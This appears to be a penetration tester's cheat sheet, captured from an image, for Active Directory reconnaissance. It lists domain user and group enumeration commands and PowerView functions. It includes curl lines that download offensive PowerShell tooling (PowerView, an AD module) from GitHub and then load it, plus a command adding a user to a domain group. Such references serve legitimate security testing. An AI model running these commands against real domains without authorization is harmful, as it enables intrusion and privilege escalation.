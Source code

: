 ## Active Directory
### Enumeration
-> Enumerate all users in the entire domain
```
net user /domain
```

-> Get information from a specific user
```
net user <user> /domain
```

-> Enumerate all groups in the entire domain
```
net group /domain
```

-> Get members of local group
```
Get-NetLocalGroup -ComputerName <domain> -Recurse (PowerView)
```

-> Find out domain controller hostname
```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

-> Configure ActiveDirectory Module - RSAT
```
curl https://raw.githubusercontent.com/samratashok/ADModule/master/ActiveDirectory/ActiveDirectory.psd1 -o ActiveDirectory.psd1  
curl https://github.com/samratashok/ADModule/blob/master/Microsoft.ActiveDirectory.Management.dll?raw=true -o Microsoft.ActiveDirectory.Management.dll  
Import-Module .\Microsoft.ActiveDirectory.Management.dll  
Import-Module .\ActiveDirectory.psd1  
```

-> Configure PowerView Module
```
curl https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 -o PowerView.ps1
. .\PowerView.ps1
```
-> Last logon
```
Get-LastLoggedOn -ComputerName <domain>
```

-> List Computers
```
Get-NetComputer (PowerView)
```

-> Add domain user to a domain group
```
Add-DomainGroupMember -Identity 'SQLManagers' -Members 'examed'
Get-NetGroupMember -GroupName 'SQLManagers'
```
